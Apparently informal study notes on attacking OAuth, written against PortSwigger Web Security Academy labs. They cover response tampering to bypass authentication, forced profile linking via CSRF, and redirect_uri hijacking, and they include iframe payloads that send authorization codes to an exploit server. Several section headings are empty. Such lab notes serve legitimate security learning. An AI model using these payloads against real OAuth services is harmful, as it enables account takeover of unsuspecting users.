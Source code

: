 # OAuth

https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2
### Authentication bypass via OAuth implicit flow

Observer the entire flow of the auth process. 

After doing all starting step there is an end point `/me` request sent by the client application to server to validate or to get basic information about the user. 

Intercept this request on the go and modify the response of email parameter to other or victim user. (try to change the username parameter also but in this case it is optional).

After **response modification** we logged in as victim user.

### Forced OAuth profile linking

1st and foremost thing is, in the process of authentication there is no STATE parameter (which is protection for CSRF) so it might vuln to CSRF

After clicking of attaching social profile after logging in, It is creating an ID (client_id) 

This client ID is unique for a session (works only one time)

This client ID is passing to followed by interaction --> auth --> oauth-linking

To attack this vuln, we need to replicate these steps to get our own valid client_id that was created with our social credentials and we need to stop (drop) before oauth-linking request i.e. is at the auth request.

Now copy the URL (with client_id) craft an xss payload to trigger this URL. Then the application will follow the next steps that is oauth-linking.

We will send this payload via CSRF. (JS included in code)

`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>`

That results, whoever visits the URL, our social login creds will linked to the victim account. So we can login with our social creds with victim creds.

### SSRF via OpenID dynamic client registration

### OAuth account hijacking via redirect_uri

After initiating the and requests followed by there is a request that contains (`/auth?client_id`) client_id and redirect_uri. 

The redirect_uri is vulnerable. If we send it to repeater and replace with attacker website we are not getting any errors.

And after the `/auth?client_id` the client_id is passing to the redirect_uri. so if we replace the redirect_uri with our attacker website we can see the client_id in our logs.

So we will send our client id along with our attacker url as redirect_uri as CSRF. that will results sending the auth code to our attacker logs.

No we will use this auth code in our browser to `/oauth-callback` with the stealed or received auth ID. 

Now this will complete the remaining steps of linked our account to the victim account. And now we will be logged in as victim.

CSRF Payload:
`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

### Stealing OAuth access tokens via an open redirect

### Stealing OAuth access tokens via a proxy page
